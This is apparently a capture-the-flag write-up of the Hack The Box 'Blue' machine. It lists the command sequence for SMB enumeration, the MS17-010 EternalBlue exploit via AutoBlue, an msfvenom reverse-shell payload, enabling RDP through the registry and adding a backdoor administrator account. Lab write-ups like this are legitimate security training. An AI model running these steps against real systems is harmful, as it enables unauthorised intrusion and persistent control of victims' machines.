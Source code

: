 # Blue

## scanning
```bash
furious 10.10.10.40
nmap -sC -sV -p 135,139,445,49154,49153,49152,49156,49155 -Pn -n 10.10.10.40 -oN targeted
```
![155443.png](155443.png)

## 445

### smclient
```bash
smbclient -N -L //10.10.10.40

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available
```

### smbmap
```bash
smbmap -H 10.10.10.40 -u anonymous
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY
```

### nmap .nse
```bash
nmap -p445 10.10.10.40 --script="smb-vuln*" -Pn -oN nmap_smb.txt
```
![151951.png](151951.png)

## searchsploit MS17-010

```bash
searchsploit MS17-010
searchsploit -m windows/remote/42315.py
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -o mysmb.py

msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f exe > shell.exe
```

we edit the exploit like this
![184552.png](184552.png)

![185253.png](185253.png)

Done but...
try harder!!!

## autoblue MS17-010
```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/

# checker
python eternal_checker.py 10.10.10.40
```
![191248.png](191248.png)
```bash
cd shellcode
./shell_prep.sh
```
![195752.png](195752.png)
![190755.png](190755.png)

```bash
python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin
```
![194856.png](194856.png)

## Reg add RDP

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Add user as administrator

```cmd
net user gato 12345 /add
net localgroup administrators gato /add
```

## Connect to the victim using rdp

```bash
rdesktop 10.10.10.40
```